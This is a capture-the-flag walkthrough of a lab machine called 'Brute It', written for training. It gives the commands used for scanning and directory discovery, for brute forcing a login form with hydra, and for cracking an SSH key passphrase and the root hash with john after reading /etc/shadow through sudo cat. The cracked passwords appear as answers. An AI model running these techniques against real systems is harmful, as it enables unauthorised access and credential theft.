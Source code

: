 ## Step 1: Reconnaissance

- do an nmap scan with service/version detection
- `nmap -sV 10.10.65.214`
![Pasted image 20250714151216.png](https://github.com/gernia/CTF_writeups/blob/main/Brute%20It/imgs/Pasted%20image%2020250714151216.png)

Now we can answer the following questions:
- **How many ports are open? - 2**
- **What version of SSH is running? - OpenSSH 7.6p1**
- **What version of Apache is running? - 2.4.29**
- **Which Linux distribution is running?  - Ubuntu**

Search for hidden directories with gobuster.
- `gobuster dir -u 10.10.65.214 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
- the medium wordlist was a bit of an overkill for this task
![Pasted image 20250714152537.png](https://github.com/gernia/CTF_writeups/blob/main/Brute%20It/imgs/Pasted%20image%2020250714152537.png)
- **What is the hidden directory? - /admin**

## Step 2: Getting a shell

- by just assuming that the login name will be admin, bruteforce the password with hydra
- `sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.65.214 http-post-form "/admin/:user=^USER^&pass=^PASS^:F=invalid" -V`

![Pasted image 20250714153958.png](https://github.com/gernia/CTF_writeups/blob/main/Brute%20It/imgs/Pasted%20image%2020250714153958.png)

- **What is the user:password of the admin panel? - admin:xavier**
- login on the webpage to get the web flag
- on the webpage we can also download a key. Safe it to a file and convert it to a format that john can use with `ssh2john key > hash.txt`
- then crack the hash with john `john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 
`
![Pasted image 20250714161614.png](https://github.com/gernia/CTF_writeups/blob/main/Brute%20It/imgs/Pasted%20image%2020250714161614.png)

- **What is John's RSA Private Key passphrase? - rockinroll**
- now use the key to login via ssh, use john as login name, because the website said that it is john's key we downloaded
- first make sure that the key has the correct permissions `chmod 600 /path/to/key`
- specify private key to use with `-i`
- `ssh -i key john@10.10.65.214
- the flag is in the user.txt file

## Step 3: Privilege escalation

- see which programs john can run with root permissions with `sudo -l`
![Pasted image 20250714163126.png](https://github.com/gernia/CTF_writeups/blob/main/Brute%20It/imgs/Pasted%20image%2020250714163126.png)

- cat can be run with root privileges without a password
- use cat to read the shadow file that contains the password hashes
- the root password hash is at the top between the first two : `$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.`
![Pasted image 20250714163210.png](https://github.com/gernia/CTF_writeups/blob/main/Brute%20It/imgs/Pasted%20image%2020250714163210.png)

- save the password hash to a file and crack it with john

![Pasted image 20250714163603.png](https://github.com/gernia/CTF_writeups/blob/main/Brute%20It/imgs/Pasted%20image%2020250714163603.png)

- **What is the root's password? - football**
- now use `su` to switch to root `su root`
- the flag is in the root folder in the root.txt file
